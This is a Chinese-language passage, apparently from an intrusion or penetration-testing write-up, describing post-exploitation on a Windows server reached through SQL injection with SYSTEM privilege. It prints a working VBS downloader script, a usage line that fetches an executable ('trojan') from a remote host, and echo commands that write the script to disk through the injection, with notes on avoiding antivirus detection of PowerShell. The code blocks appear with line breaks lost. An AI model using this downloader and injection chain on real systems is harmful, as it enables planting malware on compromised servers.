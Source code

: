 ![图片](https://shs3.b.qianxin.com/butian_public/f4ce0eebfb99929d72e33bebd9d0e3a7f.jpg)

![图片](https://shs3.b.qianxin.com/butian_public/f9cd865005814584244c7059530303ddd.jpg)

![图片](https://shs3.b.qianxin.com/butian_public/fa7127e82c6bd0e461ef16c59ca13a6af.jpg)

直接就是system权限

写入VBS下载木马
---------

cmd命令行做不到下载文件，使用powershell容易被杀毒软件拦截，在该服务器上测试powershell命令也不成功，所以就用vbs来下载文件

vbs下载文件脚本:

- 
- 
- 
- 
- 
- 
- 
- 
- 
- 
- 

```php
iLocal = LCase(WScript.Arguments(1))iRemote = LCase(WScript.Arguments(0))Set xPost = CreateObject("Microsoft.XMLHTTP")xPost.Open "GET",iRemote,0xPost.Send()Set sGet = CreateObject("ADODB.Stream")sGet.Mode = 3sGet.Type = 1sGet.Open()sGet.Write(xPost.responseBody)sGet.SaveToFile iLocal,2
```

用法:cscript D:/l.vbs <http://xx.xx.xx.xx/x.exe> D:/x.exe  
所以先得利用sql注入执行命令把该脚本一点点写入文件，如下

- 
- 
- 
- 
- 
- 
- 
- 
- 
- 
- 

```php
echo iLocal = LCase(WScript.Arguments(1))>D:/l.vbsecho iRemote = LCase(WScript.Arguments(0))>>D:/l.vbsecho Set xPost = CreateObject(""Microsoft.XMLHTTP"")>>D:/l.vbsecho xPost.Open ""GET"",iRemote,0 >>D:/l.vbsecho xPost.Send() >>D:/l.vbsecho Set sGet = CreateObject(""ADODB.Stream"")>>D:/l.vbsecho sGet.Mode = 3 >>D:/l.vbsecho sGet.Type = 1 >>D:/l.vbsecho sGet.Open()>>D:/l.vbsecho sGet.Write(xPost.responseBody)>>D:/l.vbsecho sGet.SaveToFile iLocal,2 >>D:/l.vbs
```
